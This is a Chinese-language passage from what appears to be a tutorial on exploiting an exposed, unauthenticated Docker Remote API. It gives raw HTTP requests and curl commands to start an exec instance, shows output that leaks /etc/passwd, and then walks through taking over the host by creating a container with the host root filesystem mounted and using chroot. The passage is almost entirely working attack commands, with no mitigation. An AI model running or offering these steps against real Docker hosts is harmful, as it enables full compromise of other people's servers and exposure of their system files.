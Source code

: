 3）启动 exec
现在创建了"exec"，我们需要运行它。

你需要更改请求中的以下项目：

Exec ID Docker Host Port
```
POST /exec/<exec_id>/start HTTP/1.1
Host: <docker_host>:PORT
Content-Type: application/json

{
 "Detach": false,
 "Tty": false
}
```
Curl 命令：
```
curl -i -s -X POST \
-H 'Content-Type: application/json' \
--data-binary '{"Detach": false,"Tty": false}' \
http://<docker_host>:PORT/exec/<exec_id>/start
```
响应：
```
HTTP/1.1 200 OK
Content-Type: application/vnd.docker.raw-stream
Api-Version: 1.39
Docker-Experimental: false
Ostype: linux
Server: Docker/18.09.4 (linux)

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

#### 接管主机
启动一个docker容器，主机的根目录安装到容器的一个卷上，这样就可以对主机的文件系统执行命令。由于本文中所讨论的漏洞允许你完全的控制API，因此可以控制docker主机。

注意：不要忘记更改dockerhost，port和containerID 

1）下载 ubuntu 镜像
```
curl -i -s -k  -X 'POST' \
-H 'Content-Type: application/json' \
http://<docker_host>:PORT/images/create?fromImage=ubuntu&tag=latest
```
2）使用已安装的卷创建容器
```
curl -i -s -k  -X 'POST' \
-H 'Content-Type: application/json' \
--data-binary '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostos/": {}},"HostConfig": {"Binds": ["/:/hostos"]}}' \
http://<docker_host>:PORT/containers/create
```
3）启动容器
```
curl -i -s -k  -X 'POST' \
-H 'Content-Type: application/json' \
http://<docker_host>:PORT/containers/<container_ID>/start
```
至此，你可以利用代码执行漏洞对新容器运行命令。如果要对Host OS运行命令，请不要忘记添加chroot/hostos。
